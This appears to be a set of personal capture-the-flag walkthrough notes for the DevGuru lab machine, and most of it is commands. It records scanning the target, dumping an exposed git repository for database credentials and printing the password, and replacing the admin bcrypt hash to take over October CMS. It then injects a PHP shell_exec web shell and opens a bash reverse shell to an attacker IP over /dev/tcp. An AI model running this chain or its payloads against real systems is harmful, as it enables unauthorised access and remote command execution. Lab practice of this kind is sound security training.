






## init
```bash
7z x devguru.ova.7z

ping -c 1 192.168.1.9
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 192.168.1.9 -oG allPorts
nmap -sCV -p22,80,8585 192.168.1.9 -oN targeted

whatweb http://192.168.1.9
# ans
http://192.168.1.9 [200 OK] Apache[2.4.29], Cookies[october_session], Country[RESERVED][ZZ], Email[support@devguru.loca,support@gmail.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[october_session], IP[192.168.1.9], MetaGenerator[DevGuru], Script, Title[Corp - DevGuru], X-UA-Compatible[IE=edge]

# Referenced to October CMS
# /backend to enter admin panel
# View default credentials of CMS
<>
^
grep -n "^backend$" /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt # ^ - starts, $ end

git-dumper http://192.168.1.9/.git git_repo

git log
git lop -p 7de9115700c5656c670b34987c6fbffd39d90cf2

http://192.168.1.9/adminer.php # always by default in page

# Check database.php file from repo
# Enter credential in /adminer.php
user: october
db: octoberdb
pass: SQ66EBYx4GT3byXH

```


```bash
$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK

hashcat --example-hashes | grep '\s\$2.*\$'

# search in browser bcrypt generator
```


```bash
# password123 - $2a$12$lLMERK3kE9DFdC2veUgRNeAa0CoGe9XD42iLkwJfFRgzoWAKkHDB2
# Paste nes bscrypt in db and save

```


```bash
# ENetr into october backend with the new credentials

```




```bash
# inject the following code
# In markup
{{ this.page.myVar }}

# in code
function onStart() {
    $this->page["myVar"] = shell_exec($_GET['cmd']);
}

# CLick on save
```



```bash
http://192.168.1.9/?cmd=whoami

```


```bash
http://192.168.1.9/?cmd=ls -l
```


```bash
nc -nlvp 443
<>
192.168.1.9/?cmd=bash -c "bash -i >& /dev/tcp/192.168.1.12/443 0>&1"
192.168.1.9/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.12/443 0>%261"

script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
source /etc/skel/.bashrc

cd /home
ls- l
# ans
drwxr-x--- 7 frank frank 4096 Nov 19  2020 frank
grep "sh$" /etc/passwd # user enum
id
^

cat app.ini.bak | grep -v "^;" | grep -i pass # -v to omit, -i no cae sensitive


```